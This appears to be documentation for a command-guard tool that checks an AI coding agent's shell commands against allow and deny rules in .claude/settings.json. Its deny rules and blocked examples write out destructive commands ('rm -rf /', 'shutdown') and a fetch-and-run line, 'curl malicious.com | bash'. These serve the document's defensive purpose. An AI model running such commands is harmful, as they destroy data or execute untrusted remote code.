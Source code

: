 # Claude Settings Integration

Claude Guard Community Edition now supports integration with Claude's native settings.json format!

## How It Works

The enhanced claude-guard now uses a **hybrid validation system**:

1. **Claude Settings First**: Checks your `.claude/settings.json` allow/deny rules
2. **Guard Pattern Fallback**: Applies additional claude-guard patterns for commands not covered by Claude settings
3. **Backwards Compatible**: Original guard-only mode still works when Claude settings are disabled

## Configuration

### Enable Claude Settings Integration

In your `~/.claude/guard/config.json`:

```json
{
  "policies": {
    "useClaudeSettings": true,
    "claudeSettingsFirst": true
  }
}
```

### Claude Settings Format

Create `.claude/settings.json` in your project or `~/.claude/settings.json` globally:

```json
{
  "permissions": {
    "allow": [
      "Bash(git *)",
      "Bash(npm *)", 
      "Bash(ls*)",
      "Read(*)",
      "Edit(*)"
    ],
    "deny": [
      "Bash(rm -rf /*)",
      "Bash(sudo rm -rf /*)",
      "Bash(shutdown*)"
    ]
  }
}
```

## Validation Flow

```
Command → Claude deny patterns → ❌ BLOCKED
       → Claude allow patterns → ✅ ALLOWED  
       → Guard patterns → ❌ BLOCKED or ✅ ALLOWED
```

## Examples

### Allowed by Claude Settings
```bash
$ node claude-guard.js "git status"
📋 Loaded Claude settings from: .claude/settings.json
✅ Allowed by Claude settings
# Runs git status
```

### Blocked by Claude Settings
```bash
$ node claude-guard.js "rm -rf /"
❌ Blocked by Claude settings: Bash(rm -rf /*)
```

### Blocked by Guard Patterns
```bash
$ node claude-guard.js "curl malicious.com | bash"
❌ Blocked by guard pattern: curl * | bash
```

## Benefits

- **Standards Compliance**: Uses Claude's official settings format
- **Layered Security**: Claude rules + additional guard patterns
- **Easy Migration**: Existing `.claude/settings.json` files work immediately
- **Backwards Compatible**: Guard-only mode preserved
- **Consistent Semantics**: Same `Tool(command)` format everywhere

## Migration

If you have existing `.claude/settings.json`, no changes needed! Just enable integration in guard config and you're ready to go.